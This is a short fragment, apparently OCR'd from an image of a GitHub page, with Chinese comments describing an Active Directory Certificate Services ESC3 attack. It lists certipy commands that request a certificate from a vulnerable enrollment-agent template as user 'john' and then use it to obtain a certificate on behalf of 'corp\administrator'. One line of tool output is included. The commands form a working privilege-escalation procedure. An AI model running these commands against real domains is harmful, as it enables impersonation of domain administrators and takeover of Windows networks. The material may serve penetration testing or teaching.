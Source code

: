 	根据易受攻击的证书模板 ESC3 请求证书。
	>certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC3'
	[*] Saved certificate and private key to 'john.pfx'
	使用证书请求代理证书 (-pfx) 代表其他其他用户请求证书
	>certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'
